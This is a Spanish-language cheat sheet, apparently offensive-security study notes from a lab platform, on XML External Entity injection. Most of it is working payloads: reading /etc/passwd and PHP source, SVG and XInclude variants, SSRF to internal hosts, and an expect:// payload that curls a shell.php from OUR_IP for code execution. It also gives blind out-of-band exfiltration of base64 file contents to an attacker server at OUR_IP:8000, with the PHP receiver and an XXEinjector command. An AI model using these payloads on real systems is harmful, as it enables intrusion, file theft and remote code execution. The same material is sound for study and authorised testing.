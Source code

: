 ### Siempre agregar las entidades luego de la declaración del XML!!!

### Idenificación

CUando encontramos alguna request que posea un xml, primero vemos si alguno de los datos de la misma se ve reflejado en la response.
Luego inyectamos en ese dato una nueva entidad:

    <!DOCTYPE "nombre" [
      <!ENTITY "variable" "dato de la entidad">
    ]>

Para llamar a la nueva entidad rellenamos el campo del xml con "&variable;" 
Si el formulario es vulnerable mostrará el dato de la entidad, de no serlo mostrará &variable;


#### Leer archivos del sistema:
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "file:///etc/passwd">
        ]>

#### Leer archivos mediante un svg:

#### creamos un svg con el siguiente contenido:


        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

##### Opción2:

        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

#### Obtener el código de la página php:
            <!DOCTYPE email [
          <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
        ]>



#### SSRF
podemos injectar ssrfs en el xml con el fin de alcanzar servicios internos no expuestos.

        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

#### XInclude

De a ratos nos encontramos con sitios que al hacer una request nos piden datos que luego serán parseados en el back-
end para agrergarse a un xml. ¿Cómo las distinguimos? No sabemos, simplemente hay que probar.
Para hacer una xxe, reemplazamos el parámetro que se está enviando por:

        <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

#### RCE:
##### 1)Si el módulo de php expect está instalado y permitido podríamos usar directamente: "expect://'comando'"

##### 2)Podemos generar una injección de una shell:
###### a)creamos la shell.php
###### b)Levantamos un servidor
###### c) inyectamos el siguiente código:
        <?xml version="1.0"?>
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
        ]>
        <root>
        <name></name>
        <tel></tel>
        <email>&company;</email>
        <message></message>
        </root>






### Lectura avanzada de archivos:

#### CDATA:

Nos permite engañar al backend tomando el contenido como raw:


Ejemplo no aplicable:

    <!DOCTYPE email [
      <!ENTITY begin "<![CDATA[">
      <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
      <!ENTITY end "]]>">
      <!ENTITY joined "&begin;&file;&end;">
    ]>

Desde que se prohibió el joined como medio interno, nos vemos obligado a usarlo desde afuera:

LaPorota@htb[/htb]$ 

        echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

##### Injection
        <!DOCTYPE email [
          <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
          <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
          <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
          <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
          %xxe;
        ]>
        ...
        <email>&joined;</email> <!-- reference the &joined; entity to print the file content -->



### ERROR BASED XXE:

Probamos romper el xml en la request para ver como lo resuelve el backend.

Si el error nos brinda información sobre directorios o subdirectorios con rutas podemos:

#### Crear un dtd:
        <!ENTITY % file SYSTEM "file:///etc/hosts">
        <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

y luego referenciarlo desde la request:

        <!DOCTYPE email [ 
          <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
          %remote;
          %error;
        ]>




### Blind xxe
#### Out-of-band Data Exfiltration

cramos un xml en nuestro servidor:

        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
        <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

##### luego un index.php
        <?php
        if(isset($_GET['content'])){
            error_log("\n\n" . base64_decode($_GET['content']));
        }
        ?>

##### Levantamos el servidor php:
        php -S 0.0.0.0:8000

##### Inyectamos la entidad:
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE email [ 
          <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
          %remote;
          %oob;
        ]>
        <root>&content;</root>

##### Podemos automatizar el ataque con herramientas como xxeinjector:

        git clone https://github.com/enjoiz/XXEinjector.git


##### Guardamos la request http que tenemos en burp a un archivo desde el inicio hasta la declaración del xml y agregamos xxeinject ej:

    POST /blind/submitDetails.php HTTP/1.1
    Host: 10.129.201.94
    Content-Length: 169
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
    Content-Type: text/plain;charset=UTF-8
    Accept: */*
    Origin: http://10.129.201.94
    Referer: http://10.129.201.94/blind/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Connection: close
    
            <?xml version="1.0" encoding="UTF-8"?>
            XXEINJECT

##### luego corremos la herramienta con:
        ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter


